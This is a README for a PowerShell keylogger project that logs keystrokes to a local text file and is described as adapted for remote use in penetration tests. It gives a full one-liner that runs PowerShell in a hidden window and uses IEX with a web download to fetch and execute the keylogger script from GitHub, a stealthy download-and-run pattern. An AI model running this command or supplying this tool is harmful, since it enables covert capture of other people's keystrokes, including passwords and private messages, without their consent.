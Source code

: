 # Keylogger

![Keylogger](https://ctrla1tdel.files.wordpress.com/2020/05/keylogger.gif)

## About

This is a simple automated Keylogger that records keystroke and outputs to file. 
The default location is C:\temp\Keylogger.txt

## To Run

Either download locally or run: 

powershell -nop -w hidden IEX("(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/securethelogs/Keylogger/master/Keylogger.ps1')")

This will run in the background until the C:\temp\keylogger.txt file is moved or renamed. Once the file is no longer present, Keylogger will end the Powershell session automatically. 


## Credit
This is a modfication of the script http://powershell.com/cs/blogs/tips/archive/2015/12/09/creating-simple-keylogger.aspx
, I basically took Start-keylogger and automated it so that it can be used remotely during a pentest. 

